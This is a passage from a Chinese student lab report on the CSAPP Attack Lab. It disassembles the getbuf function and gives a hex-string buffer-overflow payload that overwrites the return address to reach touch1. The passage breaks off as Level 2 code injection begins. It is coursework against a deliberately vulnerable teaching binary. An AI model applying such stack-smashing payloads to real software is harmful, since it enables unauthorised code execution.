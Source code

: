 ## e 实验环境变动

因为 OS 课的需求，从虚拟机换成了双系统，从之后的实验环境如下：

![image-20220608191907066](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608191907066.png)

终端也从`sprout@sprout-virtual-machine`变为`sprout@sprout-KLVL-WXX9`：

![image-20220608192026591](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608192026591.png)

## 3 Attacklab

### Part I: Code Injection Attacks

#### Level 1（Phase 1）

这一部分的目的是，通过缓冲区写溢出的方式，将返回值修改至函数`touch1()`。

首先我们需要反汇编`ctarget`，找到相应的函数信息。

![image-20220608195512498](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608195512498.png)

实验`Writeup`告诉我们，执行的是`test`函数，这个函数位于`0x0000000000401968`处，其调用了`getbuf`函数，这个函数的反汇编：

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

这里的第一行告诉我们栈上空间为`0x28`也就即40个字节，所以只需要将前40个字节随便填写，后面改成`touch1`的地址即可。查反汇编得知这个函数的地址在`0x00000000004017c0`。

实验Writeup提醒：注意字节序的问题。我的电脑是小端机，所以提供给`hex2raw`的字符串可以是：

```
20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 20 11 18 86 c0 17 40
```

> 为达到验证目的，今后无用字符都用本人学号来填充。

保存为`level1.txt`，做测试。

![image-20220608204209576](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608204209576.png)

#### Level 2（Phase 2）

这一部分需要注入代码，实现类似Level1的结果——调用`touch2()`。
